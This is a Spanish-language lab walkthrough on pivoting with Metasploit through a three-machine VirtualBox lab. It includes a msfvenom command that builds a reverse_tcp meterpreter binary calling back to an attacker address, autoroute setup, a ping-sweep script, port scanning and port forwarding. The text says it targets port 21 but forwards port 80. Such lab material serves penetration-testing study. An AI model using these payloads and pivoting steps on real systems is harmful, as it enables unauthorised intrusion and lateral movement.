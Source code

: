 ## CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20230717133814.png]]
Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20230717134004.png]]
Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20230717134609.png]]
MÁQUINA LINUX INTERMEDIA:
![[Pasted image 20230717134629.png]]
MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20230717134647.png]]
De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20231112112447.png]]
# PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
![[Pasted image 20230717125603.png]]
Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20231112112729.png]]
Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20230717125857.png]]
En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20231112114143.png]]
Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20230717162209.png]]
Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```
![[Pasted image 20231112112908.png]]
Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20231112120252.png]]
Con la máquina víctima:
![[Pasted image 20231112120307.png]]
Lo ejecutamos y detectamos equipos:
![[Pasted image 20231112120513.png]]
Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```
Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20231112120941.png]]
Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```

